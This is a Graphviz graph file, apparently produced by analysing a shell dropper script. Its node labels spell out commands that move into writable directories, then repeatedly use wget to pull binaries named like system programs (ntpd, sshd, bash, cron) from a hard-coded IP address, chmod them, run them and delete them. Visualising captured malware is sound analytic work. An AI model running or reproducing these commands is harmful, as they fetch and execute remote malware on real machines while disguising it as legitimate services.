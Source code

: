 digraph {
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 10 [label="||,"];
10 [label="wget http://45.77.139.184/ntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x ntpd "];
12 -> 14 [label=";,"];
14 [label="./ntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf ntpd "];
16 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 28 [label="||,"];
28 [label="wget http://45.77.139.184/sshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sshd "];
30 -> 32 [label=";,"];
32 [label="./sshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sshd "];
34 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 46 [label="||,"];
46 [label="wget http://45.77.139.184/bash "];
46 -> 48 [label=";,"];
48 [label="chmod +x bash "];
48 -> 50 [label=";,"];
50 [label="./bash "];
50 -> 52 [label=";,"];
52 [label="rm -rf bash "];
52 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 64 [label="||,"];
64 [label="wget http://45.77.139.184/tftp "];
64 -> 66 [label=";,"];
66 [label="chmod +x tftp "];
66 -> 68 [label=";,"];
68 [label="./tftp "];
68 -> 70 [label=";,"];
70 [label="rm -rf tftp "];
70 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 82 [label="||,"];
82 [label="wget http://45.77.139.184/wget "];
82 -> 84 [label=";,"];
84 [label="chmod +x wget "];
84 -> 86 [label=";,"];
86 [label="./wget "];
86 -> 88 [label=";,"];
88 [label="rm -rf wget "];
88 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 100 [label="||,"];
100 [label="wget http://45.77.139.184/cron "];
100 -> 102 [label=";,"];
102 [label="chmod +x cron "];
102 -> 104 [label=";,"];
104 [label="./cron "];
104 -> 106 [label=";,"];
106 [label="rm -rf cron "];
106 -> 108 [label=";,"];
108 [label="cd /tmp "];
108 -> 108
110 [label="cd /var/run "];
110 -> 112 [label="||,"];
112 [label="cd /mnt "];
112 -> 114 [label="||,"];
114 [label="cd /root "];
114 -> 116 [label="||,"];
116 [label="cd / "];
116 -> 118 [label="||,"];
118 [label="wget http://45.77.139.184/ftp "];
118 -> 120 [label=";,"];
120 [label="chmod +x ftp "];
120 -> 122 [label=";,"];
122 [label="./ftp "];
122 -> 123 [label=";,"];
}
